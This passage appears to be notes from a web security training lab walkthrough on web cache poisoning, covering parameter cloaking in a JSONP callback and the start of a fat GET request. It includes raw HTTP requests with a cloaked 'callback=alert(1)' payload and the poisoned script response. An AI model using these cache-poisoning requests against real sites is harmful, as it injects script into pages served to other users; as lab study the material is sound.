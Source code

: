Send above request via repeater until you can observe the injected script when you access the home directory

```
GET / HTTP/1.1
Host: 0af2003b035fb3dcc0b31ddf002000d5.web-security-academy.net
```

### Parameter cloaking

Enumerate website and find javascript being used at following path `/js/geolocate.js`

Param Miner loaded, right-click on the request and select "Bulk scan" > "Rails parameter cloaking scan" to identify the vulnerability automatically.

<img width="733" alt="image" src="https://user-images.githubusercontent.com/56427824/195496924-e76b6bbe-23db-4fb8-bc4a-2f4b2a8a1e85.png">

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)%3Balert HTTP/1.1
Host: 0a5e006004b46014c0e110ae00cf00e4.web-security-academy.net
Cookie: country=[object Object]
```

```
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Set-Cookie: session=aTaRoSBKHizPthOUmpuprQZGtIsc5Ytj; Secure; HttpOnly; SameSite=None
Set-Cookie: utm_content=foo; Secure; HttpOnly
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Connection: close
Content-Length: 199

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1);alert({"country":"United Kingdom"});
```

If cache is successfully poisoned, you should be able to see the changed javascript on

https://0a5e006004b46014c0e110ae00cf00e4.web-security-academy.net/js/geolocate.js?callback=setCountryCookie

### Web cache poisoning via a fat GET request

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
Host: 0a04006c03dd787cc0141a7f00de00f0.web-security-academy.net
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36 w4pwdkn65
Sec-Ch-Ua-Platform: "Windows"
Accept: */*, text/w4pwdkn65
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a04006c03dd787cc0141a7f00de00f0.web-security-academy.net/
Accept-Encoding: gzip, deflate, w4pwdkn65
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
X-HTTP-Method-Override: POST
X-HTTP-Method: POST
X-Method-Override: POST

```